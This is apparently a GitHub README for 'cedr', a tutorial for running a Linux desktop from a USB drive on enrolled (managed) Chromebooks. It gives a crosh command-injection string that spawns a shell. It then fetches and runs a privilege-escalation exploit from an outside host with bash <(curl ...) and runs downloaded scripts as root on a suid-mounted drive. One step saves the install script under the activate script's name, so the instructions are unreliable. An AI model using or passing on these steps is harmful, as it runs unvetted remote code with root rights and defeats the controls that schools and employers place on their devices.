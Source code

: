 # cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl https://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you can mount the drive and download cedr as follows:
```bash
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-install.sh -o cedr-install.sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-install.sh -o cedr-activate.sh
chmod +x cedr-activate.sh
chmod +x cedr-install.sh
```
5. You now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want.
```bash
./cedr-install.sh xfce
```
6. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following, replacing `startxfce4` with the normal host command (see the crouton docs) you would use to launch it:
```bash
./cedr-activate.sh startxfce4
```
7. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
cd /home/chronos
umount /home/chronos/usbdrv
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the following steps:

1. Mount the drive:
```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
```
2. Launch `cedr-activate.sh` with the host command you found earlier:
```bash
./cedr-activate.sh startxfce4
```
